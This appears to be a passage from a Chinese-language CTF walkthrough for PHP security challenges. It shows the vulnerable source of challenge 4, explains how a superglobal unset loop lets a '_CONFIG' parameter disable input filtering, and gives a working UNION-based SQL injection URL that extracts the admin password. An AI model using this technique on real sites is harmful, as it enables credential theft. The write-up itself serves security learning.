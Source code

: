 ```
http://php4fun.sinaapp.com/c3/index.php?id=1.0000000000001 
```

## challenge 4

* * *

php code:

```
#GOAL:get password from admin
# $yourInfo=array(
#   'id'    => 1,
#   'name'  => 'admin',
#   'pass'  => 'xxx',
#   'level' => 1
# );
require 'db.inc.php';

$_CONFIG['extraSecure']=true;

//if register globals = on, undo var overwrites
foreach(array('_GET','_POST','_REQUEST','_COOKIE') as $method){
     foreach($$method as $key=>$value){
          unset($$key);
     }
}

$kw = isset($_GET['kw']) ? trim($_GET['kw']) : die('Please enter in a search keyword.');

if($_CONFIG['extraSecure']){
     $kw=preg_replace('#[^a-z0-9_-]#i','',$kw);
}

$query = 'SELECT * FROM messages WHERE message LIKE \'%'.$kw.'%\';';

$result = mysql_query($query);
$row = mysql_fetch_assoc($result);

echo "id: ".$row['id']."</br>";
echo "message: ".$row['message']."</br>";

```

### 攻略：

这段$kw 在单引号里，看起来只要能使用单引号就行，所以干掉 _CONFIG['extraSecure']就 ok，刚好前面画蛇添足的有可利用的变量 unset(不然咋通关？)，然后就是联合查询了。

### 所以：

```
http://php4fun.sinaapp.com/c4/index.php?kw='%20and%200%20union%20select%20name,pass%20from%20users%20where%20id=1%23&_CONFIG=aaa 
```
